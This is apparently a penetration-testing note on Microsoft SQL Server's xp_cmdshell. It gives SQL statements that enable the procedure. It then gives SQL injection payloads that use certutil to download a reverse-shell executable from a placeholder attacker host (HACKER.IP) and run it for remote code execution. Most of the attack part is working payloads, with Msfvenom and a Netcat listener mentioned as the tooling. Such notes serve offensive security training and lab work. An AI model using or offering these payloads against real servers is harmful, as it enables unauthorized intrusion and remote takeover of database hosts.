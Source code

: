 ## xp_cmdshell
`xp_cmdshell` is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. 

Although old and mostly disabled by default, it is possible to manually enable `xp_cmdshell` in SQL Server through `EXECUTE` (**EXEC**) queries. Still, it requires the database user to be a member of the **sysadmin** fixed server role or have the `ALTER SETTINGS` server-level permission to execute this command.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once this is accomplished we can use [[Metasploit#Msfvenom |Msfvenom]] to set up a **reverse shell** in an executable and a python server so we can obtain **RCE** in the target machine

We then use the next payload so the target server runs the `certutil` command with the `-f` option that will make it download the executable, and place it in a temp folder.
```sql
'; EXEC xp_cmdshell 'certutil -urlcache -f http://HACKER.IP:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

Finally we can set up a [[Netcat]] listener server and send another payload to run the executable and set up our **reverse shell**

```sql
'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```
